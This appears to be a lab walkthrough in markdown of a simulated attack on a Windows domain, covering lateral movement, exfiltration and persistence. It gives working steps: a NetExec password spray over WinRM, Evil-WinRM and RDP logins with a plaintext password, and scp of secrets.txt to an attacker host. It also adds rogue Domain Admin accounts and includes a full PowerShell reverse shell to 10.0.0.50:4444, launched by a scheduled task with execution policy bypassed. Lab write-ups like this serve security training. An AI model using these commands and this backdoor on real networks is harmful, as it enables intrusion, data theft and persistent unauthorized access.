







Lateral movement is a tactic used by attackers to navigate through a compromised network to gain access to additional systems, resources, or data. 
It occurs after an initial breach and is an essential phase in many cyber-attacks. It helps them maintain persistence, avoid detection, and prepare for further actions like data exfiltration or ransomware deployment. Common methods include credential dumping, exploiting vulnerabilities, and leveraging legitimate tools like PowerShell or RDP. 

In the Privilege Escalation phase, attackers aim to increase their level of access within the compromised environment. By obtaining higher privileges, such as administrator or root access, adversaries gain greater control over the systems.
Techniques include exploiting software vulnerabilities, misconfigured user accounts, or password weaknesses. For example, attackers may exploit unpatched privilege escalation bugs to override normal restrictions. This expanded access enables attackers to modify system configurations, disable security measures, and access sensitive data, making it a critical phase in advancing their attack.

- as before, I need to find out more about the system I am on:
	- cat /etc/os-release
	- hostname
	- ip a
	- nmap -Pn -p1-65535 -sV 10.0.0.0/24
- looks like 5985 and 5986 ports are opened; these ports are WinRM
Windows Remote Management (WinRM): A Windows-based protocol and service that allows administrators to manage and interact with remote computers. WinRM is a service that must be running on both the client and the target system. A "listener" is set up on the remote machine to accept incoming connections on specific ports 5985 (HTTP) 5986 (HTTPS).

- I can now perform some password spraying to see if I can get access to the machine. 
- NetExec: A tool used to compromise services within a network such as: SMB; SSH; LDAP; FTP; WMI; WINRM; RDP; VNC; MSSQL
- Like Hydra, NetExec takes a list of usernames and passwords. I can source usernames and password lists for SecLists. SecLists is a very popular, open-source word list for usernames and passwords.
	- sudo nano users.txt
	- Add Administrator in first line
	- sudo nano pass.txt
	- Add @Deeboodah1! in the first line
	- nxc winrm 10.0.0.100 -u users.txt -p pass.txt



- One common technique for gaining access to a system is to spawn a shell by leveraging insecure protocols and outdated software packages with known exploits.
- WinRM is one of these vulnerable protocls, and I can use EvilWinRM to gain access
- Evil-WinRM: An open-source, command-line tool that provides remote shell access to Windows machines over WinRM
- Evil-WinRM connects to a target system via the WinRM service, you must have valid credentials. Once authenticated, it initiates a Powershell session
	- `evil-winrm -I 10.0.0.100 -u Administrator -p @Deeboodah1!`



- I have access to the [project-x-win-client] with the Administrator account. Let’s see if I can pivot to the domain controller.
- for that, I first need to see what domain this workstation is a part of and its corresponding IP address
	- `nltest /dsgetdc:`
- Let’s see what open ports this device has. (I could install nmap on the Windows 11 machine if the attacker machine was not on the same network). 



- port 3389 is open, that is the port for the Remote Desktop Protocol
- I can use xfreerdp on my attacker machine to establish a new session
	- `xfreerdp /v:10.0.0.5 /u:Administrator /p:@Deeboodah1! /d:corp.project-x-dc.com`

- now I have access to the domain controller
- I am free to navigate through the file system and to find the secrets.txt file

## Dara exfiltration

Attackers extract valuable or sensitive information from the compromised network. The goal here is to transfer data such as intellectual property, customer records, or financial information to an external location controlled by the adversary. 
Methods include encrypting and compressing data to avoid detection, using covert channels like DNS tunneling or HTTPS, or exfiltrating data in small chunks to evade bandwidth monitoring. Successful data exfiltration can result in significant reputational, operational, and financial damage to the target.

Since I have access via RDP, I could use a cloud storage provider to upload the sensitive files or I could use SMB to share files between my Kali machine since I am connected on the same network, although this is not very realistic. I am just going to use scp command line program to copy the files, to take the simple way (also not very realistic).

- in the Windows Domain Controller:
	- open a new terminal window
	- go to `C:\Users\Administrator\Documents\ProductionFiles`
	- `scp ".\secrets.txt" attacker@10.0.0.50:/home/attacker/my_sensitive_file.txt`
	- enter the attacker password


## Persistence

Now that I have effectively pwned the environment, it’s time to ensure I can come back to where I left off. Persistence refers to attackers maintain access to a system even after their initial intrusion is discovered and remediated. This ensures the attacker’s operations can continue despite interruptions. 
Common techniques include installing backdoors, creating rogue accounts, or leveraging legitimate tools for remote access like RDP or VPNs. Persistence mechanisms are often embedded deep in the system, such as registry modifications or startup scripts, to resist detection and removal. This tactic is especially critical for long-term campaigns where adversaries intend to maintain a foothold over extended periods.

- the way I will achieve this is by creating my own local account, called project-x-user
	- `net user project-x-user @mypassword1! /add`
	- `net localgroup Administrator project-x-user /add`
	- `net group "Domain Admins" project-x-user /add`



- In addition to a new user, I can create a Scheduled Task which will run a backdoor.
- Windows allows you to create scheduled tasks to perform various automations on a timeline

- Back into the Kali machine, create a new file using nano and add the following to a script called reverse.ps1
```
$ip = "10.0.0.50" 
$port = 4444
$client = New-Object System.Net.Sockets.TCPClient($ip, $port)
$stream = $client.GetStream()
$writer = New-Object System.IO.StreamWriter($stream)
$reader = New-Object System.IO.StreamReader($stream)
$writer.AutoFlush = $true
$writer.WriteLine("Connected to reverse shell!")
while ($true) {
 try {
 # Read commands from the listener (attacker)
 $command = $reader.ReadLine()
 if ($command -eq 'exit') {
 break
 }
 # Execute the command on the target machine
 $output = Invoke-Expression $command 2>&1
 $writer.WriteLine($output)
 } catch {
 $writer.WriteLine("Error: $_")
 }
}
$client.Close()
```

- Use a python webserver to upload the copy from [project-x-attacker] to [project-x-dc], from where the reverse.ps1 script is, perform:
	- `python -m http.server`
- Navigate to http://10.0.0.50:8000.
- Download the reverse.ps1 file.
- Move the reverse.ps1 file.
- Windows Defender will ask if we want to keep this file, select “Keep”.

![image](images/backdoor1.png

- Copy the file to: C:\Users\Administrator\AppData\Local\Microsoft\Windows\reverse.ps1



- In the same terminal session of the Windows machine, add the following:
```
schtasks /create /tn "PersistenceTask" /tr "powershell.exe -
ExecutionPolicy Bypass -File
C:\Users\Administrator\AppData\Local\Microsoft\Windows\reverse.ps
1" /sc daily /st 12:00
```

- Now at 12:00 PM I can catch a reverse shell by opening a listener on port 4444 on [project-x-attacker]. 



- now, i need to go to the Kali machine and i type `nc -lvnp 4444`
- in the project-x-dc terminal add:
```
Set-ExecutionPolicy Unrestricted -Scope Process
powershell.exe -executionpolicy -bypass .\reverse.ps1
.\reverse.ps1
r
```




